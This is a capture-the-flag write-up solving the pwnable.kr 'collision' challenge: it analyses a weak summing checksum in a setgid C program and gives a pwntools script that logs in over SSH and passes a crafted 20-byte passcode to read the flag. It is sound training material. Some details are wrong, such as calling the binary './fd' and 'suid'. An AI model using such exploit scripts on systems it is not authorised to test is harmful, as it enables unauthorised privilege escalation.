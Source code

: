 # collision writeup

## Challenge infos

```text
Daddy told me about cool MD5 hash collision today.
I wanna do something like that too!

ssh col@pwnable.kr -p2222 (pw:guest)
```

## Server content

```text
--- ls -la ---
total 44
drwxr-x---   5 root col      4096 Apr  2 08:58 .
drwxr-xr-x 118 root root     4096 Jun  1 12:05 ..
d---------   2 root root     4096 Jun 12  2014 .bash_history
-r-xr-sr-x   1 root col_pwn 15164 Mar 26 13:13 col
-rw-r--r--   1 root root      589 Mar 26 13:13 col.c
-r--r-----   1 root col_pwn    26 Apr  2 08:58 flag
dr-xr-xr-x   2 root root     4096 Aug 20  2014 .irssi
drwxr-xr-x   2 root root     4096 Oct 23  2016 .pwntools-cache
--- id ---
uid=1005(col) gid=1005(col) groups=1005(col)
--- cat file---
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
        int* ip = (int*)p;
        int i;
        int res=0;
        for(i=0; i<5; i++){
                res += ip[i];
        }
        return res;
}

int main(int argc, char* argv[]){
        if(argc<2){
                printf("usage : %s [passcode]\n", argv[0]);
                return 0;
        }
        if(strlen(argv[1]) != 20){
                printf("passcode length should be 20 bytes\n");
                return 0;
        }

        if(hashcode == check_password( argv[1] )){
                setregid(getegid(), getegid());
                system("/bin/cat flag");
                return 0;
        }
        else
                printf("wrong passcode.\n");
        return 0;
}
--- file binary ---
col: setgid ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=48d83f055c56d12dc4762db539bf8840e5b4f6cc, for GNU/Linux 3.2.0, not stripped
```
## Exploitation objective
* The ssh user is ```col```, group ```col```
* The ```flag``` file is readable only by the user ```col_pwn``` or the group ```root```
* The ```col``` binary is a 32bit ELF executable by the ```col_pwn``` user or members of the ```col``` group and is ```suid``` meaning that it executes with the rights of its user even if called by a member of its group

This means that if we pwn the ```col``` executable we can gain read access to the ```flag``` file via suid user ```col_pwn```.

The ```col``` executable is certainly compiled from the ```col.c``` source code, let's have a look.

## C code analysis
```c
        if(argc<2){
                printf("usage : %s [passcode]\n", argv[0]);
                return 0;
        }
```

* We need to call the program with a passcode as first argument : ```./fd [passcode]```


```c
        if(strlen(argv[1]) != 20){
                printf("passcode length should be 20 bytes\n");
                return 0;
        }
```

* The ```[passcode]``` argument should be exactly 20 bytes long, if not the program exits with an error message

```c
        if(hashcode == check_password( argv[1] )){
                setregid(getegid(), getegid());
                system("/bin/cat flag");
                return 0;
        }
```
* The program checks if the ```hashcode``` variable is equal to the return value of the ```check_password()``` function with the ```[passcode]``` argument
* If it is, the program sets the group id of the process to the effective group id and calls ```/bin/cat flag``` to output the content of the ```flag``` file

```c
unsigned long check_password(const char* p){
        int* ip = (int*)p;
        int i;
        int res=0;
        for(i=0; i<5; i++){
                res += ip[i];
        }
        return res;
}
```
* The ```check_password()``` function takes a pointer to a character array (the passcode) and casts it to an integer pointer
* It then iterates over the first 5 integers of the array (20 bytes = 5 integers of 4 bytes each) and sums them up
* The result is returned as an unsigned long integer

## Hash collisions

* Hash collisions are a situation where two different inputs produce the same hash output
* The ```hashcode``` variable is set to ```0x21DD09EC```, which is the hash we need to produce with the ```check_password()``` function
* The ```check_password()``` function sums the first 5 integers of the input, so we need to find 5 integers that sum up to ```0x21DD09EC```
* because there are a lot of possible combinations of integers that can sum up to the same value, we can create a hash collision by manipulating the input

## Exploitation

* We can create a passcode that is exactly 20 bytes long and produces the same hash output as the ```hashcode``` variable
* We can use the following integers to create a hash collision:
  * ```0x21DD09EC```
  * ```0xEEEEEEEE```
  * ```0x11111112```
  * ```0xEEEEEEEE```
  * ```0x11111112```

* I choose these integers because they have no null bytes in them, which would cause the string to be shorter than 20 bytes when passed to the ```check_password()``` function
* The integers are chosen so that they sum up to ```0x21DD09EC```, which is the value of the ```hashcode``` variable

## Exploitation script

```python
#!/usr/bin/env python
from pwn import *
```
* Use [pwntools](https://github.com/Gallopsled/pwntools) for automatic exploitation
```python
# 5 integer arguments sum to 0x21DD09EC no null bytes
arg = p32(0x21DD09EC) + p32(0xEEEEEEEE) + p32(0x11111112) + p32(0xEEEEEEEE) + p32(0x11111112)
```
* Set the ```arg``` variable to 5 integers that sum to ```0x21DD09EC```, each converted to a 4-byte little-endian representation using ```p32()```
* no null bytes are present in the integers, so the string will be exactly 20 bytes long when passed to the ```check_password()``` function
```python
server = ssh('col', 'pwnable.kr', 2222, 'guest')
io = server.process(['./col', arg])

result = io.recvall()

io.close()
server.close()

print(result)
```
* run the ```col``` executable with the ```arg``` variable as argument
* print the result of the command, which should be the content of the ```flag``` file if the exploitation was successful